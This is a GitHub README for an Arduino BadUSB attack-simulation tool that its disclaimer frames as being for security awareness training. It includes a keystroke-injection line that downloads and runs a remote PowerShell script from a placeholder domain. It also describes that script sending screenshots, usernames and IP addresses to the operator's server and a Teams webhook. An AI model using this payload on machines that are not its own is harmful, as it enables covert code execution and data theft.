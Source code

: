 # Rubber Ducky-like Attack Simulation Test/Tool

This tool allows you to capture a screenshot, gather system information, and send it to a Microsoft Teams channel using a webhook. It consists of two parts: an Arduino Ducky Script and a PowerShell script.

> :warning: **Disclaimer**
    This tool is intended for educational and testing purposes only. It is designed to simulate a USB attack for security engineering and awareness training. Use responsibly and only on systems you are authorized to test.

## Materials

- [HiLetgo BadUsb Beetle Bad USB Microcontroller ATMEGA32U4](https://www.amazon.com/gp/product/B07W5K9YHP/ref=ppx_yo_dt_b_asin_title_o01_s00?ie=UTF8&psc=1) (Amazon)

## Software Used

- [Arduino IDE](https://www.arduino.cc/en/guide/linux)
- [Ducky Script to Arduino Converter](https://elrock.gitlab.io/ducky2arduino/)


## Prerequisites

- An Arduino device with an ATMEGA32U4 Microcontroller.
- An internet-connected computer running Windows with PowerShell.
- Access to a Microsoft Teams channel with a configured incoming webhook.
- A web server where you can host the PowerShell script.
  
## Installation

#### 1. Install Python and pip:

```bash
sudo apt update
sudo apt install python3
sudo apt install python3-pip
```
#### 2. Clone or download this project to your computer.
```bash
git clone https://github.com/remoteicu/DuckDuino.git
```

#### 3. Open a terminal and navigate to the project directory.
##### Directory Structure
```bash
- app.py                 # Python script to start the web server that listens for a request
- uploads/               # Directory for uploaded files and the PowerShell script
    - run.ps1
- requirements.txt       # Python package dependencies
```
#### 4. Create a virtual environment (optional but recommended):
```bash
python -m venv venv
```
#### 5. Activate the virtual environment:
On macOS and Linux:
```bash
source venv/bin/activate
```
On Windows (PowerShell):
```powershell
.\venv\Scripts\Activate
```
#### 6. Install the required Python packages:

```bash
pip install -r requirements.txt
```
## Configuration

### Arduino Script

1. Copy the provided [Arduino Script](duino.ino) to your Arduino device using Arduino IDE.
2. Modify the delays and keypresses in the Script as needed for your setup.
> **_NOTE:_**  Make sure to select `Arduino Leonardo` under tools > board > boards manager, as well as select the correct COM Port.

### PowerShell Script
The script will:
   - Capture a screenshot of the target computer.
   - Gather system information (computer name, username, IP address).
   - Upload the screenshot and information to the web server.
   - Send a message with the screenshot link to the specified Microsoft Teams channel using the webhook.

> **_NOTE:_** Make sure to update the `$UploadUrl` and `$teamsWebhookUrl` variables in the PowerShell script to point to your server's upload endpoint and your teams webhook url.
  
## Usage
Run app.py:
```bash
python app.py
```
## Extra Options
1. Point your domain DNS to your remote server IP
2. Get an ssl certificate from letsencrypt by utalizing [certbot](https://certbot.eff.org/)
Install Certbot
```bash
sudo snap install --classic certbot
```
Prepare Certbot Command
```bash
sudo ln -s /snap/bin/certbot /usr/bin/certbot
```
Install the Cert
```bash
    sudo certbot certonly --standalone
```
3. Fill out the prompts with your domain information
4. Add the following to `app.py` and replace {{your-domain}} with your FQDN.
```python
from flask import Flask, request, jsonify, send_from_directory
import os
import json
import base64
from datetime import datetime
import pytz
from flask_sslify import SSLify

app = Flask(__name__, static_url_path='/uploads', static_folder='uploads')
sslify = SSLify(app)

# ... (Rest of your code remains the same)
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=443, ssl_context=('/etc/letsencrypt/live/{{your-domain}}/fullchain.pem', '/etc/letsencrypt/live/{{your-domain}}/privkey.pem'))

```
5. Update your arduino script by replacing {{your-domain}} to use the FQDN of your server
```bash
# ...

Keyboard.print("$scriptUrl = 'https://{{your-domain}}/uploads/run.ps1'; Invoke-Expression -Command (Invoke-RestMethod -Uri $scriptUrl)");

# ... (Rest of your code remains the same)
```
7. Setup a Start and Stop shell script and put them in the root directory
Start.sh
```bash
#!/bin/bash

nohup python app.py > /dev/null 2>&1 &

echo "Flask app started with PID: $!"
```
Stop.sh
```bash
#!/bin/bash

pid=$(pgrep -f "python app.py")
if [ -n "$pid" ]; then
  echo "Stopping Flask app (PID: $pid)..."
  kill "$pid"
  echo "Flask app stopped."
else
  echo "Flask app is not running."
fi
```


## Troubleshooting

- If you encounter issues, ensure that your Arduino device is properly configured and connected.
- Check the PowerShell script for any errors and make sure it is hosted on a reachable server.

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details.
